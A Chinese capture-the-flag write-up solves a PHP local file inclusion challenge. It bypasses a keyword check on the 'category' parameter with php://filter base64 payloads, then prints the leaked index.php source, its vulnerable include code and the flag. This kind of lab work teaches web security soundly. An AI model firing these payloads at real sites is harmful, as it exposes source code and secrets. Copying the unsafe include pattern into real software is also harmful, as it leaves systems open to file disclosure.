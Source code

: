 ![[Pasted image 20221115084857.png]]

---
首页长这样
![[Pasted image 20221115084917.png]]

按下`WOOFERS`后访问
```php
/index.php?category=woofers
```
并且随机显示一张小狗的图片
![[Pasted image 20221115085147.png]]

按下`MEOWERS`后访问
```php
/index.php?category=meowers
```
并且随机显示一张小猫的图片
![[Pasted image 20221115085322.png]]

---
尝试对`category`进行修改
```php
/index.php?category=123
```
> Sorry, we currently only support woofers and meowers.

```php
/index.php?category=1woofers
```
  
> **Warning**: include(1woofers.php): failed to open stream: No such file or directory in **/var/www/html/index.php** on line **37**  
  
> **Warning**: include(): Failed opening '1woofers.php' for inclusion (include_path='.:/usr/local/lib/php') in **/var/www/html/index.php** on line **37**

说明`category`的参数会经过一次是否包含`woofers`或`meowers`的检查，接着被加上`.php`后缀传给`include`函数进行包含

---
尝试使用`%00`进行截断
```php
/index.php?category=flag.php%00woofers
```
> **Warning**: include(): Failed opening 'flag.php' for inclusion (include_path='.:/usr/local/lib/php') in **/var/www/html/index.php** on line **37**

发现并不能读取到
尝试使用`php://filter`伪协议对`index.php`进行读取
使用一个`php://filter`伪协议的`trick`
```php
/index.php?category=php://filter/read=convert.base64-encode/write=woofers/resource=index
```

返回了`base64`编码后的`index.php`
```php

<?php
$file = $_GET['category'];

if(isset($file))
{
	if(strpos($file, "woofers") !== false || strpos($file, "meowers") !== false || strpos($file, "index")){
		include ($file . '.php');
	}
	else{
		echo "Sorry, we currently only support woofers and meowers.";
	}
}
?>
```
和预想的后端实现一致，不过`index`不出现在第一个位置上就不会被ban，所以上面的`trick`其实可有可无

尝试直接读取`flag.php`
```php
/index.php?category=php://filter/read=convert.base64-encode/write=woofers/resource=flag
```

```php
<!-- Can you read this flag? -->
<?php
 // flag{a8e44af0-53eb-441c-b549-8a5a50523ffe}
?>
```
终于做到水题啦QwQ

#PHP #Web #伪协议 #绕过 #编码 #LFI 